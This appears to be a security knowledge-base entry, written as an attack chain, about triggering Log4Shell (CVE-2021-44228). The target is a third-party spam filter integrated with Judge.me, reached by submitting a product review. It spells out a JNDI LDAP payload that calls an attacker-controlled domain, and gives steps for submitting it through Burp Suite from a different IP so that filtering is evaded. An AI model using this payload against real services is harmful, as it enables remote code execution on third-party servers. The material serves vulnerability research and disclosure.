

---
tags:
  - log4shell
  - rce
  - jndi
  - ldap
  - judge.me
  - spam-filter
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
  - '[[tools/Canarytokens]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - Java
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Enable-Judge-me-Spam-Filter-Integration]]'
  - '[[procedures/Submit-Malicious-Review-Payload-for-Log4Shell]]'
  - '[[procedures/Monitor-JNDI-Lookup-with-Canarytokens]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Exploitation for Client Execution]]'
updated_at: '2025-12-14T17:23:42.566Z'
description: >-
  Exploits CVE-2021-44228 in a third-party spam detection service integrated
  with Judge.me by submitting a review with a JNDI payload, leading to remote
  code execution on the partner's server.
skill_level: intermediate
impact_level: high
id: 38540091-ad74-482d-8676-1e5979d1a2d0
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Exploitation for Client Execution]]'
---
# Log4Shell RCE via Malicious Review Submission in Judge.me Spam Filter

The vulnerability exploited is CVE-2021-44228 (Log4Shell), a remote code execution flaw in Apache Log4j versions prior to 2.15.0, affecting a third-party spam detection service integrated with Judge.me's review system. An attacker submits a review containing a malicious JNDI payload, such as `${jndi:ldap://attacker-controlled-domain/a}`, which is logged by the partner's service. This triggers an LDAP lookup to the attacker's domain, potentially leading to arbitrary code execution on the partner's server. The attack does not compromise Judge.me's systems directly but demonstrates supply chain risks in third-party integrations. The report was marked out of scope for Judge.me but highlights the need for vendor patching.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/Canarytokens]]

### Target Environment

- Web platform with Judge.me review system enabled
- Access to shop admin settings for enabling spam filter
- Third-party spam detection service vulnerable to Log4Shell (Apache Log4j < 2.15.0)
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- Valid shop owner access to Judge.me settings
- Network access to https://judge.me
- Attacker-controlled domain for JNDI callback (e.g., via Canarytokens)

## Detailed Attack Procedures

### Step 1: Enable Spam Filter Integration
procedure: [[procedures/Enable-Judge-me-Spam-Filter-Integration]]

**Objective**: Activate the third-party spam detection service to ensure review submissions are logged and processed through the vulnerable Log4j component.

**Instructions**: Log in to the Judge.me admin dashboard and navigate to the settings page. Locate the Web Reviews Spam Filter option and enable it. This integrates the third-party service, making it process incoming reviews.

**Expected Output**: Confirmation that the spam filter is active, with reviews now routed through the partner service.

**Success Indicators**:
- Spam filter toggle shows as enabled in settings
- Subsequent reviews are flagged or processed externally

### Step 2: Submit Malicious Review Payload
procedure: [[procedures/Submit-Malicious-Review-Payload-for-Log4Shell]]

**Objective**: Inject a Log4Shell payload into a review submission to trigger JNDI lookup in the spam detection service's logs.

**Instructions**: Use a proxy like Burp Suite to intercept and modify the review submission request. Navigate to the reviews page, fill in the review form with a payload in the content field (e.g., `${jndi:ldap://canarytoken-domain/a}`), and submit from an IP different from the shop's to avoid filtering. Ensure the request mimics a legitimate review.

**Expected Output**: Review submitted successfully, with the payload logged by the third-party service.

**Success Indicators**:
- HTTP 200 response on submission
- No immediate errors in the review interface

### Step 3: Monitor for Exploitation Confirmation
procedure: [[procedures/Monitor-JNDI-Lookup-with-Canarytokens]]

**Objective**: Detect the LDAP lookup from the partner's server to confirm the JNDI injection and potential RCE.

**Instructions**: Access the Canarytokens dashboard and monitor the generated token's domain for incoming connections. Wait for requests from the partner's server IP, indicating the Log4Shell payload triggered the lookup.

**Expected Output**: Incoming LDAP request logged in the Canarytokens interface, showing the source IP and timestamp.

**Success Indicators**:
- Request from unknown IP (partner's server) to the canary domain
- Payload execution confirmed via callback

## Attack Chain Summary

### Key Achievements

1. Enabled vulnerable third-party integration without direct access to partner systems
2. Achieved RCE on partner's server via user-controlled input in reviews
3. Demonstrated supply chain attack vector in e-commerce review platforms

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Exploitation for Client Execution]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
